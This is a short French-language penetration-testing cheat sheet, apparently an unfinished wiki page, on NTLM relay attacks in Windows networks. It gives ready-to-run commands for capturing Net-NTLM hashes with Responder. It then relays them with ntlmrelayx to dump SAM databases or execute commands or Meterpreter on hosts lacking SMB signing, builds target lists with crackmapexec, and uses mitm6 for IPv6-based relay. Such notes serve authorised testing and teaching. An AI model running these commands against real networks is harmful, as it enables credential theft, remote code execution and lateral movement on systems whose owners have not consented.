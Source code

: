 ```yaml
---
description: A finir
---
```


# NTLM Relay

Prendre la dernière version de Responder ([https://github.com/lgandx/Responder](https://github.com/lgandx/Responder))

### Ecoute passive

```
sudo python3 responder -I eth0
```

Les _hashs_ NT utilisé dans la version 1 et 2 du protocole NTLM (a.k.a Net-NTLMv1-SSP et Net-NTLMv2-SSP) peuvent être relayés.

### Relayer

Pour pouvoir relayer, il faut que les services SMB et HTTP de Responder soit stoppés (fichier de configuration Responder.conf). Ceci permet le bon fonctionnement de `ntlmrelayx`.

```
# Terminal 1 (dans le docker impacket)
Dumper la base SAM : ntlmrelayx -tf <TARGETS.txt>
Exécuter une commande : ntlmrelayx -tf <TARGETS.txt> -c <COMMANDE ou METERPRETER>

# Terminal 2
sudo python3 responder -I eth0 -d -w # Les hashs sont visibles dans Responder/logs/Responder-Session.log
```

#### TIPS

* `smb2support` : Option qui permet de supporter le protocole SMBv2

Le fichier `TARGETS.txt` contient les IP des machines dont la signature SMB n'est pas activée. Cette liste de machine peut être récupérée avec la commande suivante :&#x20;

```
cme smb <IP>/<MASK> --gen-relay-list <TARGETS.txt>
```

### IPv6

Prendre la dernière version de `mitm6` ([https://github.com/dirkjanm/mitm6](https://github.com/dirkjanm/mitm6)). Après l'installation, en cas d'erreur `matplotlib`, exécuter la commande suivante :&#x20;

```
sudo pip install --upgrade matplotlib
```

Pour relayer les commandes sont les suivantes :&#x20;

```
# Terminal 1
ntlmrelayx.py -6 -tf <TARGETS.txt>

# Terminal 2
mitm6 -d <DOMAIN.LOCAL>
```

